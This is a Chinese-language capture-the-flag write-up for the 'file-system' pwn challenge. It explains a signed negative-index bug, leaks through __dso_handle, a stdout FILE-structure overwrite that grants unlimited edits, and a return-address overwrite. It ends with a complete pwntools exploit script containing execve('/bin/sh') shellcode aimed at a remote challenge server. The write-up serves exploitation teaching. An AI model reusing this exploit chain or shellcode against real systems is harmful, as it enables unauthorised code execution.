




# file-system

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |

## 解题思路

> [!TIP]
> 建议先看[bph writeup](bph.md)再来看这篇writeup，知识点是相通的

### 漏洞分析

题目可以打开文件或创建文件，打开后会将其放在bss的数组中。
一开始有2次机会可以执行edit或者show。首先还原题目存放文件信息的结构体：

```c
struct dirfile {
    char name[0x30];
    char content[0xa0];
    short content_len;
    FILE *file;
};
```

注意到需要满足`(int)(uint)filecnt >= (int)(char)getnum()`才能编辑或查看文件，
而最后是有符号比较，因此我们可以使用负数去绕过限制，向前读取内容。

### 泄露信息

查看bss上的数据，由于有`__dso_handle`的存在（一个指向其自身的指针），借助负索引，
我们可以向前访问去用它来泄露信息。



首先我们能泄露`__dso_handle`，然后如果我们能控制这个假file的`content_len`，就可以泄露更多数据。
那么我们可以打开大量文件，这样就会向`files`上存放大量指针，直到恰好覆盖到`content_len`，
就可以打印出bss上的所有数据。继续向后看，bss后面还有一个栈地址，它是在构造函数(0x1469)中写入的。



因此借助`__dso_handle`，我们可以泄露程序基地址以及栈地址。

> [!INFO]
> 构造函数是编译时的一个属性，通过在函数头写上`__attribute__((constructor))`，
> 编译器会安排其在运行`main`函数之前运行，之后这个函数通常可以在ELF中的`init_array`中找到，
> libc会在初始化过程中调用它。

### 写入 `stdout` 来修改 `chance`

为了能获得更多写入的机会，我们需要引入一些帮助。向前编辑`stdout`，根据结构体，
我们能够写入`_IO_write_end`之后的字段。和 **bph** 一样，我们修改`_IO_buf_base`和`_IO_buf_end`，
使`puts`在写数据时覆盖缓冲区，改变`chance`的值。

具体来说，执行`_IO_puts`时，会走`_IO_sputn (stdout, str, len)`，展开到`_IO_new_file_xsputn`，
一直走到`new_do_write`，在`new_do_write`中，写完字符串后，就会更新`_IO_write_base`、
`_IO_write_ptr`和`_IO_write_end`。

```c glibc-2.42/source/libio/fileops.c#L1257
size_t
_IO_new_file_xsputn (FILE *f, const void *data, size_t n)
{
  ...
  if ((f->_flags & _IO_LINE_BUF) && (f->_flags & _IO_CURRENTLY_PUTTING)) {...}
  else if (f->_IO_write_end > f->_IO_write_ptr) // 不满足 (_IO_write_end == 0)
    ...
  /* Then fill the buffer. */
  if (count > 0) {...}
  if (to_do + must_flush > 0)
    {
      size_t block_size, do_write;
      /* Next flush the (full) buffer. */
      if (_IO_OVERFLOW (f, EOF) == EOF)
        ...

      /* Try to maintain alignment: write a whole number of blocks.  */
      block_size = f->_IO_buf_end - f->_IO_buf_base; // 8
      do_write = to_do - (block_size >= 128 ? to_do % block_size : 0);

      if (do_write)
        {
          count = new_do_write (f, s, do_write);
          to_do -= count;
          if (count < do_write)
            return n - to_do;
        }
      ...
    }
  return n - to_do;
}
```

```c glibc-2.42/source/libio/fileops.c#L464
static size_t
new_do_write (FILE *fp, const char *data, size_t to_do)
{
  size_t count;
  if (fp->_flags & _IO_IS_APPENDING)
    ...
  else if (fp->_IO_read_end != fp->_IO_write_base) {...}
  count = _IO_SYSWRITE (fp, data, to_do); // write out string
  if (fp->_cur_column && count) ...
  _IO_setg (fp, fp->_IO_buf_base, fp->_IO_buf_base, fp->_IO_buf_base);
  // 写入 write_base 和 write_ptr
  fp->_IO_write_base = fp->_IO_write_ptr = fp->_IO_buf_base;
  // UNBUFFERED，write_end = buf_base
  fp->_IO_write_end = (fp->_mode <= 0
                       && (fp->_flags & (_IO_LINE_BUF | _IO_UNBUFFERED))
                       ? fp->_IO_buf_base : fp->_IO_buf_end);
  return count;
}
```

此时`chance`仍然是0，但是随后`puts`将写入一个`'\n'`，
即`_IO_putc_unlocked ('\n', stdout)`，展开到`__putc_unlocked_body (_ch, _fp)`，
再展开到另一个宏：

```c glibc-2.42/source/libio/bits/types/struct_FILE.h#L117
#define __putc_unlocked_body(_ch, _fp)                                      \
  (__glibc_unlikely ((_fp)->_IO_write_ptr >= (_fp)->_IO_write_end)          \
   ? __overflow (_fp, (unsigned char) (_ch))                                \
   : (unsigned char) (*(_fp)->_IO_write_ptr++ = (_ch)))
```

可以看到在打印换行符时，给`*write_ptr`写了一个换行符，即把`chance`设置为了10。



### 任意写入覆盖返回地址

现在我们已经有了无限次任意修改的机会，之前又泄露出了栈地址，而且题目还主动分配了rwx的空间，
我们还能控制其内容，那我们只要修改edit函数的返回地址为shellcode地址就可以执行shellcode，
题目也没有沙箱，直接`execve("/bin/sh", 0, 0)`就可以。

动调可知泄露的栈地址比edit函数的返回地址高了0xaf，先预先减掉，
`file->content`位于0x30的偏移，再加上21字节的shellcode，对齐到8的边界，
这些字节都需要减掉，保证shellcode地址能正好写在返回地址上。

编辑`__dso_handle`，在`__dso_handle + 0x30`地方写上栈地址，再编辑这个栈地址，
就可以覆盖函数的返回地址了。但是实际还遇到一个问题，在复制内存后，还会从栈上取出file地址，
写入`content_len`，因此我们需要把这个地址也伪造一下，避免 *SEGV*。



## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = './filesys'

def payload(lo: int):
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t)
    else:
        t = remote('47.94.201.121', 34868)
    elf = ELF(EXE)
    libc = elf.libc

    def create_file(name: str, buf: bytes) -> bool:
        t.sendlineafter(b'2.open file', b'1')
        t.sendlineafter(b'input filename (max length = 0x30): ', name.encode())
        if b'Exist' in t.recvline():
            return False
        t.send(buf)
        return True

    def open_file(name: str):
        t.sendlineafter(b'2.open file', b'2')
        t.sendlineafter(b'input filename (max length = 0x30): ', name.encode())

    def edit_file(idx: int, buf: bytes):
        t.sendlineafter(b'2.open file', b'3')
        t.sendlineafter(b'idx', str(idx).encode())
        t.sendafter(b'content', buf)

    def show_file(idx: int) -> bytes:
        t.sendlineafter(b'2.open file', b'4')
        t.sendlineafter(b'input file idx: ', str(idx).encode())
        return t.recvuntil(b'\nshow File', True)

    t.sendafter(b'DirectoryName', b'\n')
    if create_file('1', b'rand bytes'):
        for i in range(2, 19):
            create_file(str(i), b'rand bytes')
    else:
        for i in range(1, 19):
            open_file(str(i))

    # Use one chance to leak information
    leak = show_file(-11) # __dso_handle
    pie_base = u64(leak[:6] + b'\0\0') - 0x4008
    success(GOLD_TEXT(f'Leak pie_base: {pie_base:#x}'))
    elf.address = pie_base
    stack = u64(leak[0x477:0x47f]) - 0xaf # saved in constructor function
    success(GOLD_TEXT(f'Edit function stack frame return addr: {stack:#x}'))

    # Use another chance to overwrite stdout to get infinite chances
    chance = pie_base + 0x4010
    edit_file(-8, flat(0, chance, chance + 8))

    # Edit __dso_handle to put edit stack address on bss
    edit_file(-11, p64(stack - 0x30 - 0x28))

    # Overwrite edit return address to open shell
    shellcode_addr = 0x20250000
    shellcode = b'H\xbb/bin/sh\x00ST_1\xf6j;X\x99\x0f\x05'
    edit_file(-5, flat(shellcode.ljust(0x18, b'\0'), shellcode_addr, 0, shellcode_addr))

    t.clean()
    t.interactive()
    t.close()
```

## 参考

1. [2025强网杯-file-system - irontys](https://blog.csdn.net/weixin_52111404/article/details/153685837)
2. [bph](bph.md)
